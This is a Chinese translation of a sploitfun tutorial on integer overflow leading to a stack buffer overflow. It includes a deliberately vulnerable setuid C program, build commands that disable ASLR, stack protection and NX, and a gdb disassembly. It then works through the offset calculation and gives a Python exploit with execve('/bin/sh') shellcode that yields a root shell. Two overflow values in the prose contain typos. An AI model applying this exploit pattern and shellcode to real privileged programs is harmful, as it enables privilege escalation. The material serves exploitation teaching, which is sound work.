


#### 翻译自 [这里](https://sploitfun.wordpress.com/2015/06/23/integer-overflow/)，转发请标注原作者
2022-6-12
***

### 整型溢出

#### 什么是整型溢出

存储大于最大支持值的值称为整数溢出。整数溢出本身不会导致任意代码执行，但整数溢出可能会导致堆栈溢出或堆溢出，从而导致任意代码执行。在这篇文章中，我将只讨论导致堆栈溢出的整数溢出，导致堆溢出的整数溢出将在稍后的单独帖子中进行介绍。

类型范围



当我们尝试存储一个大于最大支持值的值时，我们的值会被溢出。例如，当我们尝试将 2147483648 存储为有符号得 int 数据类型时，它会溢出并存储为 -21471483648。这称为整数溢出，这种溢出可能导致任意代码执行。

#### 下溢出

类似地，存储小于支持的最小值的值称为整数下溢。例如，当我们尝试将 -2147483649 存储为有符号的 int 数据类型时，它会溢出并存储为 21471483647。这称为整数下溢。在这里，我将只讨论整数溢出，但下溢的过程也一样。

漏洞代码

```c
//vuln.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void store_passwd_indb(char* passwd) {
}

void validate_uname(char* uname) {
}

void validate_passwd(char* passwd) {
 char passwd_buf[11];
 unsigned char passwd_len = strlen(passwd); /* [1] */ 
 if(passwd_len >= 4 && passwd_len <= 8) { /* [2] */
  printf("Valid Password\n"); /* [3] */ 
  fflush(stdout);
  strcpy(passwd_buf,passwd); /* [4] */
 } else {
  printf("Invalid Password\n"); /* [5] */
  fflush(stdout);
 }
 store_passwd_indb(passwd_buf); /* [6] */
}

int main(int argc, char* argv[]) {
 if(argc!=3) {
  printf("Usage Error:   \n");
  fflush(stdout);
  exit(-1);
 }
 validate_uname(argv[1]);
 validate_passwd(argv[2]);
 return 0;
}
```

编译

```bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

上述易受攻击程序的第 [1] 行显示存在整数溢出漏洞。 strlen() 的返回类型是 size_t (unsigned int)，但是它以 unsigned char 数据类型存储。因此，任何大于 unsigned char 支持的最大值的值都会导致整数溢出。因此，当密码长度为 261 时，261 会溢出并作为 5 存储在“passwd_len”变量中！由于这个整数溢出，可以绕过在第 [2] 行执行的边界检查，从而导致基于堆栈的缓冲区溢出，正如本文所见，基于堆栈的缓冲区溢出会导致任意代码执行。

在查看漏洞利用代码之前，为了更好地理解，让我们反汇编并绘制易受攻击代码的堆栈布局。

```assembly
(gdb) disassemble validate_passwd 
Dump of assembler code for function validate_passwd:
 //Function Prologue
 0x0804849e <+0>: push %ebp                               //backup caller's ebp
 0x0804849f <+1>: mov %esp,%ebp                           //set callee's ebp to esp

 0x080484a1 <+3>: push %edi                               //backup edi
 0x080484a2 <+4>: sub $0x34,%esp                          //stack space for local variables
 0x080484a5 <+7>: mov 0x8(%ebp),%eax                      //eax = passwd
 0x080484a8 <+10>: movl $0xffffffff,-0x1c(%ebp)           //String Length Calculation -- Begins here
 0x080484af <+17>: mov %eax,%edx
 0x080484b1 <+19>: mov $0x0,%eax
 0x080484b6 <+24>: mov -0x1c(%ebp),%ecx
 0x080484b9 <+27>: mov %edx,%edi
 0x080484bb <+29>: repnz scas %es:(%edi),%al
 0x080484bd <+31>: mov %ecx,%eax
 0x080484bf <+33>: not %eax
 0x080484c1 <+35>: sub $0x1,%eax                          //String Length Calculation -- Ends here
 0x080484c4 <+38>: mov %al,-0x9(%ebp)                     //passwd_len = al
 0x080484c7 <+41>: cmpb $0x3,-0x9(%ebp)                   //if(passwd_len <= 4 )
 0x080484cb <+45>: jbe 0x8048500 <validate_passwd+98>     //jmp to 0x8048500
 0x080484cd <+47>: cmpb $0x8,-0x9(%ebp)                   //if(passwd_len >=8)
 0x080484d1 <+51>: ja 0x8048500 <validate_passwd+98>      //jmp to 0x8048500
 0x080484d3 <+53>: movl $0x8048660,(%esp)                 //else arg = format string "Valid Password"
 0x080484da <+60>: call 0x80483a0 <puts@plt>              //call puts
 0x080484df <+65>: mov 0x804a020,%eax                     //eax = stdout 
 0x080484e4 <+70>: mov %eax,(%esp)                        //arg = stdout
 0x080484e7 <+73>: call 0x8048380 <fflush@plt>            //call fflush
 0x080484ec <+78>: mov 0x8(%ebp),%eax                     //eax = passwd
 0x080484ef <+81>: mov %eax,0x4(%esp)                     //arg2 = passwd
 0x080484f3 <+85>: lea -0x14(%ebp),%eax                   //eax = passwd_buf
 0x080484f6 <+88>: mov %eax,(%esp)                        //arg1 = passwd_buf
 0x080484f9 <+91>: call 0x8048390 <strcpy@plt>            //call strcpy
 0x080484fe <+96>: jmp 0x8048519 <validate_passwd+123>    //jmp to 0x8048519
 0x08048500 <+98>: movl $0x804866f,(%esp)                 //arg = format string "Invalid Password"
 0x08048507 <+105>: call 0x80483a0 <puts@plt>             //call puts
 0x0804850c <+110>: mov 0x804a020,%eax                    //eax = stdout
 0x08048511 <+115>: mov %eax,(%esp)                       //arg = stdout
 0x08048514 <+118>: call 0x8048380 <fflush@plt>           //fflush
 0x08048519 <+123>: lea -0x14(%ebp),%eax                  //eax = passwd_buf
 0x0804851c <+126>: mov %eax,(%esp)                       //arg = passwd_buf
 0x0804851f <+129>: call 0x8048494                        //call store_passwd_indb

 //Function Epilogue
 0x08048524 <+134>: add $0x34,%esp                        //unwind stack space
 0x08048527 <+137>: pop %edi                              //restore edi
 0x08048528 <+138>: pop %ebp                              //restore ebp
 0x08048529 <+139>: ret                                   //return
End of assembler dump.
(gdb)
```

栈分布



由于我们已经知道密码得长度是 261，并且能够绕过边界检查并允许我们覆盖位于堆栈中的返回地址。让我们通过发送一系列 A 来测试它。 

step 1：是否可以覆盖返回地址？

```$ gdb -q vuln
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*261'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*261'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

step 2：目标缓冲区的偏移量是多少？

让我们找出来自缓冲区“passwd_buf”的偏移返回地址。分解并绘制了 validate_passwd() 的堆栈布局后，现在让我们尝试查找偏移位置信息，堆栈布局显示返回地址位于缓冲区“passwd_buf”的偏移量（0x18）处。 0x18 计算如下：

```
0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4
```

在这里

```
0xb is ‘passwd_buf’ size
0x1 is ‘passwd_len’ size
0x4 is alignment space
0x4 is edi
0x4 is caller’s EBP
```

因此，用户输入“A” * 24 + “B” * 4 + “C” * 233 形式的密码，用“A”覆盖 passwd_buf、passwd_len、对齐空间、edi 和调用者的 ebp，用“BBBB”覆盖返回地址和剩余的空间用 C 填充。

```bash
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

上面的输出表明攻击者可以控制返回地址。位于堆栈位置 (0xbffff1fc) 的返回地址被“BBBB”覆盖。有了这些信息，让我们编写一个漏洞利用程序来实现任意代码执行。

```python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

arg1 = "sploitfun"

#Stack address where shellcode is copied.
ret_addr = 0xbffff274

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",num)

# arg2 = Junk + RA + NOP's + Shellcode
arg2 = "A" * 24
arg2 += conv(ret_addr);
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 108

print "Calling vulnerable program"
call(["./vuln", arg1, arg2])
```

执行攻击获得一个 root 权限的 shell

```bash
$ python exp.py 
Calling vulnerable program
Valid Password
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

